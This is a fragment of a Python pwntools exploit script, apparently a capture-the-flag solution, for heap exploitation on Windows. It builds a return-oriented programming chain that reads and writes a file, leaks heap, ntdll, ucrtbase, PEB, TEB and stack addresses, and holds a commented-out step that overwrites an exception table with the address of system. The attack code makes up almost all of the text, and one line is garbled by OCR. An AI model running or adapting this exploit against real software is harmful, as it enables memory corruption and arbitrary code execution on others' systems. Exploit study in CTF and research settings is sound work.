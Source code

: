 ```python
ropchain += p64(pop_rcx) + p64(3) + p64(pop_rdx) + p64(heap_base + 0x8e0) + p64(0) + p64(pop_r8) + p64(0x40) + p64(_read) + p64(pop_4regs) + p64(0) * 4
ropchain += p64(pop_rcx) + p64(1) + p64(pop_rdx) + p64(heap_base + 0x8e0) + p64(0) + p64(pop_r8) + p64(0x40) + p64(_write)
# ropchain = p64(pop_rcx) + p64(heap_base + 0x8e0) + p64(pop_rcx + 1) + p64(ucrtbase_system)

payload += ropchain
p.send(payload)
function_stack_addr = u64(p.recv(8))

'''
################ for test, write exception table and syscall table

# Send payload to control file 6 to leak StateHeap          (6)
payload =  pg
64(heap_base + 0x8d8)  # change files[5]->buffer = &files[6]->buffer
payload += 'A' * 0x20 + p64(0x100) + p64(ntdll_base + 0x168d40 + 0x10) # change files[6]->buffer = ntdll!RtlpProcessHeapsListBuffer + 0x10 (StateHeap)
p.send(payload)
p.recvuntil("leakaddr")
state_heap_base = u64(p.recv(8))

# Send payload to control file 6 to hijack state->exception_table to system
payload =  p64(heap_base + 0x8d8)  # change files[5]->buffer = &files[6]->buffer
payload += 'A' * 0x20 + p64(0x100) + p64(state_heap_base + 0x8e0) # change files[6]->buffer = state->exception_table
p.send(payload)
payload = p64(ucrtbase_system) * 7
p.send(payload)

################ test done
'''

print("------------- Leaked Information -------------")
print("[+] BufferHeap cookie: " + hex(heap_cookie))
print("[+] BufferHeap base: " + hex(heap_base))
print("[+] ntdll base: " + hex(ntdll_base))
print("[+] ucrtbase base: " + hex(ucrtbase_base))
print("[+] PEB: " + hex(peb))
print("[+] TEB: " + hex(teb))
print("[+] prog_base: " + hex(prog_base))
print("[+] stack_base: " + hex(stack_base))
print("[+] function_stack_addr: " + hex(function_stack_addr))
# print("[+] state_heap_base: " + hex(state_heap_base))

p.interactive()
```

